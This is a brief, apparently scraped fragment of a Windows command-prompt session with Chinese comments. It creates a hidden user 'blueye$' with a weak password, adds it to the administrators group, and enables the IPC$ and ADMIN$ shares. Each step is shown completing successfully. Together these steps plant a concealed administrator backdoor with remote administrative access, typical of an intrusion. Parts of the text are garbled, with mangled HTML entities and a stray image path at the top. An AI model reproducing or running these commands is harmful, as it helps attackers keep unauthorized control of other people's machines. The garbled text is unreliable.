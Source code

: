 c:/winnt/system32>net user blueye$Content$nbsp;1111 /add 
命令成功完成。 
把用户添加成超级管理员  
c:/winnt/system32>net localgroup administrators blueye$Content$nbsp;/add  
命令成功完成。 
看看共享开了没有,没有的话把共享开开  
c:/winnt/system32>net share  
清单是空的。   
c:/winnt/system32>net share ipc$Content$nbsp; 
命令成功完成。  
c:/winnt/system32>net share admin$Content$nbsp; 
命令成功完成。  

